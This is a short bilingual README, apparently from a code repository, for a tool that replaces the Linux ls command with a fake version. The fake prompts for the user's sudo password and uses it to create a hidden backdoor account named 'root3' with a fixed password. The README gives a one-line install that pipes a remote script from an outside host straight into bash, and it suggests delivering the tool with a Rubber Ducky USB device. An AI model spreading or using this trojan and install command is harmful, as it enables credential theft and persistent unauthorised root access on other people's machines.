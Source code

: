 # fake-ls_privilege-escalation-linux

COMMAND TO INSTALL VIA INTERNET : `wget -qO - script.help.pm/ls.php | bash -`

Replacing the linux LS command for privilege elevation.

You have access to a ROOT session but you don't know the password to run useful commands ?
Run this script on a laptop (a ruber ducky usb key can help) and the LS command will be replaced by a fake LS command. When running LS, it will ask for the sudo password of the user and create with these rights a new user named "root3" with the password "3toor".
the LS command is displayed normally after that

command test if is ok : getent passwd root3

## ---FR---

COMMANDE POUR INSTALLER VIA INTERNET : `wget -qO - script.help.pm/ls.php | bash -`

Remplacement de la commande linux LS pour une élévation de privilège.

Vous avez avec un accès sur une session ROOT mais vous ne connaissez pas le mot de pass pour lancer des commandes utiles ?
Lancer ce script sur un pc (une cle usb ruber ducky peut aider) et la commande LS sera remplacer par une fausse commande LS. À l'exécution de LS, cela demandera le mot de pass sudo de l'utilisateur et créer avec ces droits un nouvel utilisateur nommés "root3" avec le mot de pass "3toor"
la commande LS s'affiche normalement après cela


ubuntu 20 and 22 ok
